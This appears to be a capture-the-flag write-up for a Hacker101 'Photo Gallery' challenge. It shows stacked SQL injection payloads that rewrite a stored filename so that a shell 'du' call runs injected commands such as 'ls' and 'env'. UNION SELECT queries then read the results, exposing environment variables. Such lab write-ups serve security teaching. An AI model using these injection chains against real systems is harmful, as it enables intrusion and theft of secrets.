

# Photo Gallery - FLAG2

## 0x00 Space Used


We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

## 0x01 Stacked Queries

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Try modify image title

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```

Successfully updated file title 3.



## 0x02 Remote Code Execution

Now we can update **filename** to perform RCE.

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go check the execution result

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

## 0x03 FLAG

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go get the flags

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.


[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
